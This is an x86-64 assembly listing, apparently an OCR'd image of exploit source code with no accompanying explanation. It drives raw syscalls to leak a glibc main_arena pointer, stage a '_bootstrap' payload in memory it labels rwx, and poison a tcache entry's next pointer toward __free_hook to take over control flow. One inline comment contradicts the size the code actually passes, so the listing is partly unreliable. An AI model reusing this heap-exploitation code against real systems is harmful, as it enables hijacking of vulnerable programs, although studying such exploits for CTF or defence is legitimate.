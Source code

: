 ```

	movq $2, %rax
	leaq str_b(%rip), %rdi
	movq $0x90, %rsi
	syscall # open(str_b, 0x90) = 4

	movq $2, %rax
	leaq str_c(%rip), %rdi
	movq $0x90, %rsi
	syscall # open(str_c, 0x90) = 5

	movq buf_1 + 0x40(%rip), %rax  # <main_arena+1632>
	addq $-0xc0b0e0, %rax          # rwx memory
	movq %rax, addr_dest(%rip)

	movq buf_1 + 0x50(%rip), %rax
	addq $-0x239e8, %rax
	movq %rax, addr_src_p(%rip)

	movq $1, %rax
	movq $5, %rdi
	leaq _bootstrap(%rip), %rsi
	movq $0x90, %rdx
	syscall # write(5, _bootstrap, 0x100)

	movq $2, %rax
	leaq str_d(%rip), %rdi
	movq $0x80, %rsi
	syscall # open(str_d, 0x80) = 7

	movq $2, %rax
	leaq str_e(%rip), %rdi
	movq $0x80, %rsi
	syscall # open(str_e, 0x80) = 8

	movq $2, %rax
	leaq str24_d(%rip), %rdi
	movq $0x110, %rsi
	syscall # open(str24_d, 0x110) = 9

	movq $3, %rax
	movq $7, %rdi
	syscall # close(7)

	movq $3, %rax
	movq $8, %rdi
	syscall # close(8)

	xorq %rax, %rax
	movq $9, %rdi
	leaq buf_2(%rip), %rsi
	movq $0x110, %rdx
	syscall # read(9, buf_2, 0x110)

	movq buf_1 + 0x40(%rip), %rax  # <main_arena+1632>
	addq $0x2948, %rax             # <__free_hook>
	movq %rax, buf_2 + 0x60(%rip)  # tcache_entry::next

	movq $1, %rax
	movq $9, %rdi
	leaq buf_2(%rip), %rsi
	movq $0x110, %rdx
	syscall # write(9, buf_2, 0x110)
```